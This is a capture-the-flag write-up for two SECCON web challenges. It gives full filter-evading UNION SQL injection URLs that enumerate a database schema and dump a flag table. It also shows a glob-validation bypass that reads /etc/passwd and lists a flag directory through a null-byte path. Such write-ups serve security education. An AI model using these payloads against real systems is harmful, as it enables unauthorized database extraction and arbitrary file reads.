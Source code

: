 If we try `'or 2=2 #`, it will output `The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. Try more!`.

And we can use UNION-based MySQL Injection to dump the second half flag:

`http://web-search.chal.seccon.jp/?q=%27anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/1)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23`

<br>

get the db name:

`http://web-search.chal.seccon.jp/?q='anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/(schema_name)/**/from/**/infoorrmation_schema.schemata)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23`

=> `seccon_sqli`

<br>

get the table name:

`http://web-search.chal.seccon.jp/?q=%27anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/(table_name)/**/from/**/infoorrmation_schema.tables)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23`

=> `flag`

<br>

get the column name:

`http://web-search.chal.seccon.jp/?q=%27anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name=%27flag%27)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23`

=> piece

<br>

get the flag:

`http://web-search.chal.seccon.jp/?q=%27anandd/**/1=2/**/union/**/select/**/*/**/from/**/((SELECT/**/(piece)/**/from/**/flag)a/**/JOIN/**/(SELECT/**/2)b/**/JOIN/**/(select/**/3)c)%23`

=> `You_Win_Yeah}`

so the flag is `SECCON{Yeah_Sqli_Success_You_Win_Yeah}`



### fileserver

The source code of server is in `/app.rb`.

The validation function has some problems, it will check `[` before checking `{`

So we can use `{[}` to bypass the validation, it will not raise 400 Bad Request.

And we can use it to read arbitrary file:

http://fileserver.chal.seccon.jp:9292/%7B,%5B%7D/etc/passwd

Use `/%00/` to list directory and get the flag filename:

`http://fileserver.chal.seccon.jp:9292/%00/tmp/flags/`

=> `/tmp/flags/qqVnBHOmIS0SIJz97VLGaWXs2CtuQBNW.txt`

flag: `SECCON{You_are_the_Globbin'_Slayer}`
